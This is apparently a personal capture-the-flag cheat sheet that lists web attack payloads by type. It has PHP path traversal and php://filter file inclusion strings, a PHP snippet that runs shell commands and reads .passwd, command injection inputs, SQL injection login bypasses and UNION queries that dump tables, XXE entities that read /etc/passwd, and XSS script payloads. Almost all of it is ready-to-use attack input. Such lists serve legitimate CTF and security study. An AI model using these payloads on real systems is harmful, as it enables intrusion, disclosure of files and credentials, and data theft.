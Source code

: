 ### Flask-unsign: https://github.com/Paradoxis/Flask-Unsign

### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
- /?inc=php://filter/read=convert.base64-encode/resource=config.php
- ?page=php://filter/convert.base64-encode/resource=home
- "' and die(system('cat .passwd')) or '"
- PNG
``<?php
 echo exec("ls -la");
	exec("cd ..");
	echo exec("la -la");
	echo ("\n hello");
	echo exec ("cat ../../../.passwd")
?>``
- https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- username: `ad'||'min`, password: `a' IS NOT 'b`
- SELECT * FROM exploits WHERE ID=`1 UNION SELECT 1,2--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2 UNION SELECT 1,2,3--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2' UNION SELECT version(),user(),3--'`
- ' UNION SELECT GROUP_CONCAT(table_name), CURRENT_TIME FROM information_schema.tables WHERE table_schema=DATABASE() AND '1'='1
- ' UNION select flag, CURRENT_TIMESTAMP from flags where '1'='1

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
### XSS:
- `#<script>alert('XSS')</script>`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<p onclick=alert('XSS')>Click me</p>`
- `#<body onload=alert('XSS')>`
- `#</p><script>alert('XSS')</script>`
- `#<img src="x" onerror="alert('XSS')">`
- `#%25253Cscript%25253Ealert(1)%25253C/script%25253E`
